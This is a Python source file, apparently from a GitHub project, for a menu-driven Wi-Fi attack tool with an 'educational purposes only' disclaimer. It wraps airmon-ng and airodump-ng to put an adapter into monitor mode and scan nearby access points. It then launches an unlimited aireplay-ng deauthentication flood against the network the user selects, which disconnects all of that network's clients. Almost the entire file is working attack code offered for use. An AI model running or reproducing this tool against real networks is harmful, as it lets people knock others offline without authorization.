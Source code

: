 # 1015-No-Brainers
# THIS SCRIPT WAS MADE FOR EDUCATIONAL PURPOSES ONLY. THE AUTHOR IS NOT LIABLE FOR ANY HARM DONE USING THIS SCRIPT.

import subprocess
import re
import csv
import os
import time
import shutil
from datetime import datetime


active_wireless_networks = []


def check_for_essid(essid, lst):
    check_status = True

    
    if len(lst) == 0:
        return check_status

    
    for item in lst:
        
        if essid in item["ESSID"]:
            check_status = False

    return check_status





print(r"""    _    _        _  ___      _    
   / \  (_)_ __  | |/ (_) ___| | __
  / _ \ | | '__| | ' /| |/ __| |/ /
 / ___ \| | |    | . \| | (__|   < 
/_/   \_\_|_|    |_|\_\_|\___|_|\_\ """)
print("\n****************************************************************")
print("\n* Freshly brewed by Vansh Choudhary *")
print("\n****************************************************************")



if not 'SUDO_UID' in os.environ.keys():
    print("Try running this program with sudo.")
    exit()


for file_name in os.listdir():
    
    if ".csv" in file_name:
        print("There shouldn't be any .csv files in your directory. We found .csv files in your directory.")
        
        directory = os.getcwd()
        try:
            
            os.mkdir(directory + "/backup/")
        except:
            print("Backup folder exists.")
        
        timestamp = datetime.now()
        
        shutil.move(file_name, directory + "/backup/" + str(timestamp) + "-" + file_name)


wlan_pattern = re.compile("^wlan[0-9]+")



check_wifi_result = wlan_pattern.findall(subprocess.run(["iwconfig"], capture_output=True).stdout.decode())


if len(check_wifi_result) == 0:
    print("Please connect a WiFi controller and try again.")
    exit()


print("The following WiFi interfaces are available:")
for index, item in enumerate(check_wifi_result):
    print(f"{index} - {item}")


while True:
    wifi_interface_choice = input("Please select the interface you want to use for the attack: ")
    try:
        if check_wifi_result[int(wifi_interface_choice)]:
            break
    except:
        print("Please enter a number that corresponds with the choices.")


hnic = check_wifi_result[int(wifi_interface_choice)]


print("WiFi adapter connected!\nNow let's kill conflicting processes:")



kill_confilict_processes =  subprocess.run(["sudo", "airmon-ng", "check", "kill"])


print("Putting Wifi adapter into monitored mode:")
put_in_monitored_mode = subprocess.run(["sudo", "airmon-ng", "start", hnic])



discover_access_points = subprocess.Popen(["sudo", "airodump-ng","-w" ,"file","--write-interval", "1","--output-format", "csv", hnic + "mon"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)


try:
    while True:
        
        subprocess.call("clear", shell=True)
        for file_name in os.listdir():
                
                
                fieldnames = ['BSSID', 'First_time_seen', 'Last_time_seen', 'channel', 'Speed', 'Privacy', 'Cipher', 'Authentication', 'Power', 'beacons', 'IV', 'LAN_IP', 'ID_length', 'ESSID', 'Key']
                if ".csv" in file_name:
                    with open(file_name) as csv_h:
                        
                        
                        csv_h.seek(0)
                        csv_reader = csv.DictReader(csv_h, fieldnames=fieldnames)
                        for row in csv_reader:
                            if row["BSSID"] == "BSSID":
                                pass
                            elif row["BSSID"] == "Station MAC":
                                break
                            elif check_for_essid(row["ESSID"], active_wireless_networks):
                                active_wireless_networks.append(row)

        print("Scanning. Press Ctrl+C when you want to select which wireless network you want to attack.\n")
        print("No |\tBSSID              |\tChannel|\tESSID                         |")
        print("___|\t___________________|\t_______|\t______________________________|")
        for index, item in enumerate(active_wireless_networks):
            
            
            
            print(f"{index}\t{item['BSSID']}\t{item['channel'].strip()}\t\t{item['ESSID']}")
        
        time.sleep(1)

except KeyboardInterrupt:
    print("\nReady to make choice.")


while True:
    choice = input("Please select a choice from above: ")
    try:
        if active_wireless_networks[int(choice)]:
            break
    except:
        print("Please try again.")


hbssid = active_wireless_networks[int(choice)]["BSSID"]
hchannel = active_wireless_networks[int(choice)]["channel"].strip()



subprocess.run(["airmon-ng", "start", hnic + "mon", hchannel])


subprocess.Popen(["aireplay-ng", "--deauth", "0", "-a", hbssid, check_wifi_result[int(wifi_interface_choice)] + "mon"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL) 


try:
    while True:
        print("Deauthenticating clients, press ctrl-c to stop")
except KeyboardInterrupt:
    print("Stop monitoring mode")
    
    subprocess.run(["airmon-ng", "stop", hnic + "mon"])
    print("Thank you! Exiting now")


#Names: Preet Durllabh,  
